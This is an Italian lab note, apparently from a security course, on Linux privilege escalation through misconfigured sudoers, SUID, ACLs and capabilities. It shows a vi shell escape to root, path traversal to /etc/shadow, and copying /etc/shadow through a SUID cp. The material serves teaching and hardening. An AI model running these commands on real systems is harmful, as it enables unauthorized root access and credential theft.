 # Misconfiguration

Strumenti per rivelare modifiche fatte a un sistema

**Obiettivo**: un utente non privilegiato (user_test) sfrutta una configurazione insicure per ottenere accesso root.

**Strategia**:

# 1. SUDOERS (modificabile tramite comando visudo)
Se ho un utente @user_test, aggiungo su visudo questa riga: ```user_test ALL=(root) NOPASSWD:/usr/bin/vi /var/www/html/*```, per dargli accesso sudo
senza password per eseguire solo vi sul file in /var/www/html/*

Per vedere cosa un utente privilegiato non può fare: ```sudo -l -U user_test```

```sh
# MODALITÀ 1:

sudo /usr/bin/vi /var/www/html/file_a_caso # ho accesso qui
# se dentro vi digito: :!/bin/bash 
# verrà avviata una shell root senza password
# perchè vi è stato eseguito come root con sudo

# MODALITÀ 2:
# path trasversal

sudo /usr/bin/vi /var/www/html/../../../etc/shadow

# MMODALITÀ 3:

```
# 2. SUID

**UTILE**: Ricerca di file o directory con permessi speciali settati: ```find / -perm /7000```

Voglio usare cp per copiare file di sistema protetti (come /etc/passwd e /etc/shadow) e modificarli indirettamente

Il bit suid asegnato viene eseguito con i permessi del proprietario (in questo caso root), anche se avviato da un utente normale.

Da root assegniamo il SUID bit al comando cp 

```sh
sudo chmod u+s /bin/cp #attivo suid
ls -al /bin/cp
-rwsr-xr-x 1 root root 146880 Feb 28 2019 /bin/cp

# copio i file
cp /etc/passwd .
cp /etc/shadow .
ls -l

-rw-r--r-- 1 root vagrant 1503 Jun  1 17:38 passwd
-rw-r----- 1 root vagrant  864 Jun  1 17:39 shadow
```
cp è eseguito come root (grazie al SUID), quindi i file copiati mantengono lo stesso proprietario (root).

Problema: Non puoi modificarli direttamente perché appartengono a root

Ne creiamo quindi una copia leggibile, li modifichiamo, e li ricopiamo al posto di quelli oroginali

```sh
cat passwd > pass.rw    # Crea una copia leggibile/scrivibile
cat shadow > shad.rw    # Stessa cosa per shadow
ls -l
```

# 3. ACL

Le ACL POSIX sono un'estensione dei permessi standard, che permette di assegnarli specificamente a soggetti diversi da proprietario, gruppo proprietario, e "altri".

Gli strumenti per manipolarle fanno parte del pacchetto acl

Ad esempio ```setfacl -m u:kali:rw /etc/sudoers```

renderebbe manipolabile il file sudoers dall'utente kali anche se questo non avesse alcun modo di guadagnare i privilegi di root

La ricerca di file con ACL non standard impostate si può condurre con: ```getfacl -sR /```

# 4. CAPABILITIES

Sono gli specifici permessi di svolgere operazioni privilegiate, caratteristiche di root. Diventando root si acquisiscono tutte le capabilities esistenti, come visto i programmi SUID usano questo meccanismo per concedere azioni privilegiate a utenti standard.

```sh
sudo /usr/sbin/setcap "CAP_DAC_OVERRIDE=eip" /usr/bin/vim.tiny
```
Assegna a vim.tiny la capacità (CAP_DAC_OVERRIDE) di ignorare i permessi di lettura/scrittura sui file, anche quelli di sistema protetti.